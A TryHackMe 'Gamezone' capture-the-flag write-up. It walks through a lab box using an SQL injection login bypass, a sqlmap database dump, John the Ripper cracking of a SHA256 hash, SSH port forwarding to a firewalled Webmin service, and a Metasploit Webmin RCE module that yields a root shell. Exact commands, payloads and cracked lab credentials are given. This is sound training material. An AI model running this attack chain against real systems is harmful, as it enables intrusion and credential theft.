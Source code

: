 # Gamezone \(W\) \(wlk\)

_TryHackMe_ – [**Gamezone**](https://tryhackme.com/room/gamezone) Write-Up

_topics_: SQL injection\(SQLmap\), password cracking, reveal services with reverse SSH tunnel, Windows privilege escalation

1. **Plan**
2. **Enumeration**
3. **Local Privilege Escalation**
4. **Vuln Scanning**
5. **Exploitation**

new tools: sqlmap,

#### USE WITHOUT METASPLOIT AND SQLMAP

## 1\) Plan

this box is a walkthrough so it is just to introduce these concepts. will understand more about SQL \(structured query language\) and how you can potentially manipulate queries to communicate with the database.

#### Enumeration – would’ve had to find out through scans this is a webserver based on SQL and attempt malicious query manipulation.

## 2\) Local PrivEsc: SQLi & Password Cracking

walkthrough so no nmap scans. The website is configured to accept “’or 1=1 – -” input as the username with a blank password, obtaining access via SQL injection \(manipulating queries to communicate with database\). This redirects to portal.php page.

Intercept POST field with burp and save to request.txt file to use wih sqlmap.

 `sqlmap -r request.txt --dbms=mysql --dump >> sql.txt (can omit --dbms)`

which returns a hashed password \(ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14\) and a username of agent47.

###  2.1\) Password cracking

 save the hash to a file john.txt and copy that to file named hashes after running john on john.txt.

 `john --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=RAW-SHA256`

 returns the password of videogamer124 for the account agent47.

## 3\) Vuln Scanning – Services with reverse SSH tunnels

using the socket inspection utility `ss -t` and `ss -tulpn`, we can see how many TCP sockets are running, 5. This exposes a service running on port 10000 that is blocked via firewall \(viewable from Iptables\), can use SSH tunnel to expose the port on the attacking machine

`ssh -L 10000:localhost:10000 <username>@<ip>` exposing a vulnerable CMS website. Using the credentials **agent47:videogamer124** we can login and reveal the version number 1.580 and find an exploit.

## 4\) Root Escalation

searching for webmin 1.580 exploit reveals a metasploit RCE. Login to msfconsole

`msfconsole`

`search webmin or search 1.580`

`use <exploit> (use exploit/unix/webapp/webmin_show_cgi_exec)`

`show options`

`set PASSWORD videogamer124, set RHOSTS localhost, set RPORT 10000, set SSL false, set USERNAME agent47, set LHOSTS <attacker ip>`

`sessions -i <session ID>`

following this creates a shell with root access and we can read the flag.

\*\*\*\*

\*\*\*\*

\*\*\*\*

